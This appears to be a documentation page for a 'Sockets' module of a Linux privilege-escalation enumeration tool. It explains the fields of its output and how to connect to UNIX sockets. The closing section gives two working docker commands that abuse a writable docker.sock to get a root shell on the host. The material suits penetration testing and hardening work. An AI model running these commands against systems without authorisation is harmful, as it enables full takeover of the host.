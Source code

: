 # 📟 Sockets

## Return Value
A table is returned with those sockets listening on the system.

*Fields*:
- **FILE**:
- **PERMISSIONS**: File permissions.
- **LINKS**: Number of links in the file.
- **USER**: User to which the file belongs.
- **GROUP**: Group to which said file belongs.
- **SIZE**: File size.
- **DATE**: Date of the last modification of the file.
- **INFO**: Information about the file and permissions.
- **USES HTTP?**: If you can communicate with that socket through the HTTP protocol.

Information is obtained from the `ss` and `netstat` commands.

## What use is this information to escalate privileges?
It is interesting to analyze certain sockets, especially those that can communicate via HTTP.

## How to communicate with a socket?
```bash
# With netcat-openbsd
nc -U /path/to/socket # Connect to UNIX-domain stream socket
nc -uU /path/to/socket # Connect to UNIX-domain datagram socket

# With socket
socat - UNIX-CLIENT:/path/to/socket # Connect to UNIX-domain stream or datagram socket
```

## How to communicate with a socket via HTTP?
```bash
curl --max-time 1 --unix-socket /path/to/socket http:/route
```

## Docker socket with write permissions
If you have write permissions on the `/var/run/docker.sock` socket, you can use it to escalate privileges as follows:

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

## References
- [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets)
- [Manual (ss)](https://www.man7.org/linux/man-pages/man8/ss.8.html)
- [Manual (netstat)](https://www.man7.org/linux/man-pages/man8/netstat.8.html)
- [Manual (systend.socket)](https://www.man7.org/linux/man-pages/man5/systemd.socket.5.html)